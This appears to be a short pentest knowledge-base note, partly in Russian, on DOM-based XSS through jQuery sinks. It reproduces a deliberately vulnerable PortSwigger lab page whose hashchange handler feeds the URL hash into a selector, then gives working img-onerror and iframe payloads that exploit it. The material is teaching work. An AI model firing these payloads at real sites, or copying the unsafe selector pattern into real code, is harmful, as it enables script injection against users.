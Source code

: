 # jQuery XSS

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```javascript
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

Пример уязвимости из [PortSwigger Web Academy](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event) в использовании jQuery: приложение по якорю ищет в названии постов конкретный пост и скролит страницу к выбранному месту

```markup
<div theme="blog">
    <section class="maincontainer">
        <div class="container is-page">
            <section class="blog-list">
                <div class="blog-post">
                <a href="/post?postId=1"><img src="/image/blog/posts/43.jpg"></a>
                <h2>New Year - New Friends</h2>
                <p>It's always the same. A new year begins and those people you thought were your friends go, well, a bit weird. Your nearest and dearest, between them, have a very long list of things they want to change about themselves....</p>
                <a class="button is-small" href="/post?postId=1">View post</a>
                </div>
                <div class="blog-post">
                <a href="/post?postId=2"><img src="/image/blog/posts/31.jpg"></a>
                <h2>Finding Inspiration</h2>
                <p>I don't care who you are or where you're from aren't just poignant Backstreet Boys lyrics, they also ring true in life, certainly as far as inspiration goes. We all lack drive sometimes, or perhaps we have the drive but...</p>
                <a class="button is-small" href="/post?postId=2">View post</a>
                </div>
            </section>
            <script src="https://code.jquery.com/jquery-1.8.2.js"></script>
            <script src="https://code.jquery.com/jquery-migrate-1.4.1.js"></script>
            <script>
                $(window).on('hashchange', function(){
                    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                    if (post) post.get(0).scrollIntoView();
                });
            </script>
        </div>
    </section>
</div>
```

Линк с DOM XSS:&#x20;

```
https://server.com/#<img src=/ onerror=print()>

или через iframe:

 <iframe src="https://server.com/#" onload="this.src += '<img src=/ onerror=print()>'"></iframe>
```
